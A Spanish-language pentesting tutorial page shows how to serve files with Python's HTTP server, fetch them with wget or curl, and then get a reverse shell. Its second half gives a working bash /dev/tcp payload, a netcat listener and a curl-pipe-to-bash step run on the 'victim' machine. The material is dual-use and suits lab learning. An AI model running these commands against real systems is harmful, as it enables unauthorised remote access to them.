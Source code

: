 ```yaml
---
description: >-
  Ejemplo donde compartiremos archivos con un servidor web con python y
  crearemos un archivo que contiene un payload para conseguir una reverse-shell.
---
```


# Cómo Compartir Archivos Con Servidor Http Con Python + Reverse Shell

Compartir archivos

* Primero montar un servidor web con python ubicado donde estén los archivos para compartir:

```bash
└─$ ls
archivo.txt

└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Descargar el archivo vía navegador web:&#x20;



<figure><img src="../../../.gitbook/assets/compartir-web.png" alt=""><figcaption></figcaption></figure>

* Descargar el archivo vía el comando wget:

```bash
$ wget http://192.168.1.18/archivo.txt
--2024-10-06 02:05:23--  http://192.168.1.18/archivo.txt
Conectando con 192.168.1.18:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 56 [text/plain]
Guardando como: “archivo.txt”

archivo.txt                                        100%[===============================================================================================================>]      56  --.-KB/s    en 0s      

2024-10-06 02:05:23 (7,77 MB/s) - “archivo.txt” guardado [56/56]

$ ls
archivo.txt
```

* Descargar el archivo vía comando curl:

```bash
$ curl -O http://192.168.1.18/archivo.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56  100    56    0     0   6222      0 --:--:-- --:--:-- --:--:--  8000
$ ls
archivo.txt
```

Reverse-shell

* Crear archivo con el payload para hacer la reverse-shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.1.18/7777 0>&1
```

* Montar un servidor web con python ubicado donde este el archivo creado de antes:

```bash
└─$ ls
rs.sh

└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Con netcat en la máquina de atacante en escucha para recibir la revershell:

```bash
└─$ nc -lvnp 7777
listening on [any] 7777 ...
```

* Con curl desde la máquina victima enviar una petición al servidor web y ejecutar el archivo con bash:

```bash
$ curl http://192.168.1.18/rs.sh | bash
```

* Recibir la reverse-shell con curl:

```bash
└─$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.24] 33646
abdel@uclient:~/Escritorio$ 
```

